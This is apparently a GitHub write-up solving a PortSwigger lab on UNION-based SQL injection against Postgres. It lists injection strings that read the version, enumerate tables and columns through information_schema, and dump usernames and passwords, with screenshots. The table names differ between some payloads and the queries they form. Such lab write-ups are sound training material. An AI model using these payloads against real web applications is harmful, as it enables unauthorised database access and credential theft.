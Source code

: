 ## Lab Description:

<img width="891" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/1416dc41-d80e-487a-b141-50c121dc04cc">

## Solution:

The database in use here is Postgres (enumerated by injection ' UNION SELECT null,version()--), which holds the table information in the information_schema.tables-table. In the relevant documentation, the available columns are listed. We are interested in table_name. So inject ' UNION SELECT table_name, table_schema from information_schema.tables-- into the parameter to form the following query:

We use an invalid category so that no articles are found and only my output appears.

```SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'```

<img width="1281" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/72da75d9-28b1-4065-9215-e3f3cad18116">


<img width="1290" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/71ecf7a0-947b-48de-9a54-c1086781d3e9">

The information_schema.columns view holds information about the columns of each table, specifically the column_name column. The proper string to inject is ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'-- to form this query

```SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_lrsbaf'--'```

<img width="1285" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b057e0a5-47c5-4f25-bde8-c1705da1184b">

<img width="1217" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/596acff4-23cb-430f-bd38-9a7a0425945d">

Now we have all information to obtain the required usernames and passwords. Inject ' UNION SELECT username_ujopmd, password_vpnjej from users_kcstmf-- to form this query:

```SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_lrsbaf--'```

<img width="1280" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/f0d071fc-f67c-4152-965d-615582113e4b">

<img width="1197" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0a1e0bc6-e93d-4845-a9df-e3ca5100e0f2">

<img width="1190" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0ff8431b-162d-4be7-b7d5-16297e8e99d6">

<img width="1202" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/3c6c4f6b-94a5-449e-a4ec-4e3559e1d329">



